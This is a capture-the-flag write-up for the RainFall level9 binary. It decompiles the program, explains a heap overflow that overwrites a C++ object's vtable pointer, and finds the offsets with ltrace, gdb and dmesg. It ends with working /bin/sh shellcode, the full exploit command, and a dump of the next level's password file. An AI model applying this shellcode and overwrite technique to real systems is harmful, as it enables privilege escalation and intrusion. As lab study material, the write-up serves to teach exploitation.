 ###  Walkthrough

```cpp
// Ghidra
void main(int param_1,int param_2)

{
  N *this;
  code **this_00;

  if (param_1 < 2) {
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  this = (N *)operator.new(0x6c);
  N(this,5);
  this_00 = (code **)operator.new(0x6c);
  N((N *)this_00,6);
  setAnnotation(this,*(char **)(param_2 + 4));
  (**(code **)*this_00)(this_00,this);
  return;
}
```

```cpp
// Retdec
// Address range: 0x80485f4 - 0x804869a
int main(int argc, char ** argv) {
    if (argc <= 1) {
        // 0x8048604
        _exit(1);
        // UNREACHABLE
    }
    int32_t * v1 = _Znwj(108); // 0x8048617
    _ZN1NC1Ei(v1, 5);
    int32_t * v2 = _Znwj(108); // 0x8048639
    _ZN1NC1Ei(v2, 6);
    _ZN1N13setAnnotationEPc(v1, (char *)*(int32_t *)((int32_t)argv + 4));
    return (int32_t)v2;
}
```

This level was one of the toughest for us...

<u>Here is how we managed to gain privileges :</u>

First, let's try understanding it's execution :

* The program takes one parameter.

* It then checks, according to Retdec and our tests, that argc > 1, otherwise it exits

* It then instantiates 2 objects, this and this00. These instantiations hide malloc instructions that happen in the heap, so their memory adresses may follow in memory.

```cpp
void __thiscall setAnnotation(N *this,char *param_1)
{
  size_t __n;

  __n = strlen(param_1);
  memcpy(this + 4,param_1,__n);
  return;
}
```

* If our argv[1] is +108 long, we begin to overflow `this` and start writing at the beginning of `this00`

The next important part before beginning our exploit is : 

```cpp 
  (**(code **)*this_00)(this_00,this);
```

This line is basically a function pointer on the value at the address of this_00.

So, in order to make it work, we first have to find the address of the `this` : 

```bash
level9@RainFall:~$ ltrace ./level9 yo
__libc_start_main(0x80485f4, 2, 0xbffff7a4, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330)             = 0
_Znwj(108, 0xbffff7a4, 0xbffff7b0, 0xb7d79e55, 0xb7fed280)                        = 0x804a008
_Znwj(108, 5, 0xbffff7b0, 0xb7d79e55, 0xb7fed280)                                 = 0x804a078
strlen("yo")                                                                      = 2
memcpy(0x0804a00c, "yo", 2)                                                       = 0x0804a00c
_ZNSt8ios_base4InitD1Ev(0x8049bb4, 11, 0x804a078, 0x8048738, 0x804a00c)           = 0xb7fce4a0
+++ exited (status 11) +++
```

Here, at this line : `memcpy(0x0804a00c, "yo", 2) = 0x0804a00c`, we see that the dest address of memcpy is `0x0804a00c`. If we check again on the source code, it's the address of the beginning of the data of our `this` object.

Then, we need to see the padding required, and check wether it worked :

```bash
level9@RainFall:~$ ./level9 `python -c 'print(108 * "A" + "BBBB")'`
Segmentation fault (core dumped)
level9@RainFall:~$ dmesg
...
[45298.046277] level9[10396]: segfault at 42424242 ip 08048682 sp bffff670 error 4 in level9[8048000+1000]
```

We find our "BBBB" string, this means that it worked.

After some trials and errors, in order to make it work, we stored our shellcode inside our environnement :

```bash
export SHELLCODE=`python -c 'print("\x90" * 30 + "\x31\xc0\xb0\x0b\xbb\x2f\x2f\x73\x68\xc1\xeb\x08\x53\xbb\x2f\x62\x69\x6e\x53\x89\xe3\x31\xc9\x31\xd2\xcd\x80")'`
```

We thus need to find it's address :

```bash
$ gdb ./level9
$ b *main
$ r
$ x/100x *environ
0xbffff887:	0x4c454853	0x444f434c	0x90903d45	0x90909090
0xbffff897:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff8a7:	0x90909090	0x90909090	0x6850c031	0x68732f2f
0xbffff8b7:	0x69622f68	0x50e3896e	0xb0e18953	0x0080cd0b
0xbffff8c7:	0x4c454853	0x622f3d4c	0x622f6e69	0x00687361
0xbffff8d7:	0x4d524554	0x6574783d	0x322d6d72	0x6f633635
0xbffff8e7:	0x00726f6c	0x5f485353	0x45494c43	0x313d544e
0xbffff8f7:	0x312e3239	0x352e3836	0x20312e36	0x36303336
0xbffff907:	0x32342035	0x53003234	0x545f4853	0x2f3d5954
0xbffff917:	0x2f766564	0x2f737470	0x53550031	0x6c3d5245
0xbffff927:	0x6c657665	0x534c0039	0x4c4f435f	0x3d53524f
0xbffff937:	0x303d7372	0x3d69643a	0x333b3130	0x6e6c3a34
0xbffff947:	0x3b31303d	0x6d3a3633	0x30303d68	0x3d69703a
0xbffff957:	0x333b3034	0x6f733a33	0x3b31303d	0x643a3533
0xbffff967:	0x31303d6f	0x3a35333b	0x343d6462	0x33333b30
0xbffff977:	0x3a31303b	0x343d6463	0x33333b30	0x3a31303b
0xbffff987:	0x343d726f	0x31333b30	0x3a31303b	0x333d7573
0xbffff997:	0x31343b37	0x3d67733a	0x343b3033	0x61633a33
0xbffff9a7:	0x3b30333d	0x743a3134	0x30333d77	0x3a32343b
0xbffff9b7:	0x333d776f	0x32343b34	0x3d74733a	0x343b3733
0xbffff9c7:	0x78653a34	0x3b31303d	0x2a3a3233	0x7261742e
0xbffff9d7:	0x3b31303d	0x2a3a3133	0x7a67742e	0x3b31303d
0xbffff9e7:	0x2a3a3133	0x6a72612e	0x3b31303d	0x2a3a3133
0xbffff9f7:	0x7a61742e	0x3b31303d	0x2a3a3133	0x687a6c2e
0xbffffa07:	0x3b31303d	0x2a3a3133	0x6d7a6c2e	0x31303d61
```

Select the address of one of the line containing our nop instructions : `0xbffff897` for example

We now have all the required infos, let's write our payload :

```bash
$ ./level9 `python -c 'print("\xa7\xf8\xff\xbf" * 2  + 88 * "A" + 4 * "\x0c\xa0\x04\x08")'`
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

